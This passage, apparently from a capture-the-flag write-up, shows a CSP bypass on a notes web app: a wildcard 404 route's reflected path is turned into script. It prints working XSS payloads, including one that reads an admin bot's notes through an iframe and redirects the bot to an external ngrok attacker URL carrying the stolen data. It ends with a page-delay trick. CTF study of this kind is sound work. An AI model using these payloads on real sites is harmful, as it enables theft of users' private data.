 This is where the `*` end-point will come in handy. We will use `srcipt-src` in the note itself, to run run JS.

```javascript!
<script src="http://127.0.0.1/somethingxyz/,alert(String.fromCharCode(72,101,108,108,111))"></script>

```

![](https://i.imgur.com/PhYF9fQ.png)

![](https://i.imgur.com/5hAOz2r.png)

![](https://i.imgur.com/SIgd4Ur.png)

We are successfully able to execute an alert for the bot. BUT this is where things get very tricky. Remember the code for `*` it has this line as well:

```
return res.send("404 - " + encodeURI(req.path));
```

Not only should your code bypass CSP, but it should also pass this `encodeURI` check. I tried a lot trying to come up with a bypass, but it didn't work.

![](https://i.imgur.com/WmvPyDY.png)

After brainstorming for a while, I thought of using the HTML tags to somehow read the `noteID`.

> Enter the payload

```javascript!
<iframe id="notesframe" src="http://127.0.0.1/notes"></iframe>
<script src="http://127.0.0.1/somethingxyz/,console.log(document.getElementById('notesframe').contentWindow.document.body.innerHTML);" defer></script>
<script src="http://127.0.0.1/somethingxyz/,console.log(1);a=btoa(encodeURIComponent(document.getElementById('notesframe').contentWindow.document.body.querySelector('a').outerHTML));window.location.href='https://825f-2601-197-380-43a0-99e5-8a79-29c7-8ddf.ngrok-free.app/'+a;" defer></script>
```

> In short, the payload retrieves the text content of an anchor tag from an iframe, encodes it, and sends it to the attacker's server by redirecting the browser to the attacker's URL with the encoded data appended. However, the script above won't work right because the `iframe` won't load in time.

![](https://i.imgur.com/5K5xulX.png)

We need to somehow delay the loading of the page for the `iframe` to load. I achived this by loading the `purify.js` and `stylesheets` mutiple times.

```javascript!
<iframe id="notesframe" src="http://127.0.0.1/notes"></iframe>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
```